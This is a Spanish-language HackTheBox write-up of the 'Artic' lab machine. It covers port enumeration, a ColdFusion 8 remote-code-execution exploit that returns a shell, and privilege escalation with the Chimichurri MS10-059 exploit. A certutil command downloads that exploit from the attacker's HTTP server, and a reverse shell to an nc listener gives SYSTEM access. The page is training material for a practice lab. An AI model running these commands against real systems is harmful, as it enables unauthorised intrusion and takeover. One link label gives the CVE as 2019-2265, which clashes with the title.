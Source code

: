 ```yaml
---
title: HackTheBox - Artic
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'ColdFusion 8 RCE (CVE-2009-2265)', 'Chimichurri (MS10-059)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Artic/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Artic Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackTheBox.

Técnicas usadas: **ColdFusion 8 RCE (CVE-2009-2265), Chimichurri (MS10-059)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina Artic**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Artic/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Artic/02-versions.png)

    * El puerto **`8500`** es usado por ColdFusion para la comunicación segura (SSL)

* **Wappalyzer** detecta que el servicio es **Adobe ColdFusion**, además, ver un directorio **CFIDE** también es señal de que el servicio es Cold Fusión

    ![](/assets/images/HTB/Easy/Artic/03-web.png)

* Existen rutas a las cuales podemos acceder y obtener más información.

    ```bash
    - CFIDE/administrator/settings/mappings.cfm
    - CFIDE/administrator/enter.cfm
    ```

    ![](/assets/images/HTB/Easy/Artic/04-logo.png)

c. Si buscamos por exploits referentes a **ColdFusion 8** encontramos esto [CVE-2019-2265](https://www.exploit-db.com/exploits/50057)

* Modificamos el script 

    ```python
    if __name__ == '__main__':
      # Define some information
      lhost = '<tun0 IP>'
      lport = 443
      rhost = "<Artic IP>"
      rport = 8500
    ```
* Ejecutamos el script y ya tendremos una shell

  ```cmd
  root@kali> python coldfusion.py
  <SNIP>
  C:\ColdFusion8\runtime\bin>whoami
  whoami
  arctic\tolis
  ```

### Escalada de Privilegios 💹

a. Usaermos [Window-Exploit-Suggestor](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) para encontrar maneras de escalar privilegios, para esto, guardaremos el output del comando **systeminfo** en un fichero que le pasaremos a este script.

> El script al ser antiguo nos puede dar problemas al ejecutarlo, algunas soluciones:
> La base de datos a usar la podemos descargar de: https://github.com/SecWiki/windows-kernel-exploits/tree/master/win-exp-suggester
> Para solucionar el error de fichero no soportado instalamos esto **`pip install xlrd==1.2.0`**
{: .prompt-warning }

```bash
root@kali> python2 windows-exploit-suggestor.py --database 2017-06-14-mssb.xls --systeminfo systeminfo

<SNIP>
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
```

b. En base a lo descubierto anteriormente encontramos este exploit [Chimichurri - MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri/Compiled)

* Lo transferimos a la **Máquina Artic**

  ```bash
  root@kali> python -m http.server 8080
  ---------------------------------------------------------------------------------------------------
  C:\Users\tolis>certutil -urlcache -split -f http://<tun0 IP>:8080/Chimichurri.exe Chimichurri.exe
  ```

c. Nos ponemos en escucha con **nc** en un puerto y nos enviamos una reverse shell

```bash
C:\Users\tolis>.\Chimichurri.exe <tun0 IP> 443
------------------------------------------------
root@kali> nc -lvnp 443
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.11] 49404
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis>whoami
whoami
nt authority\system
```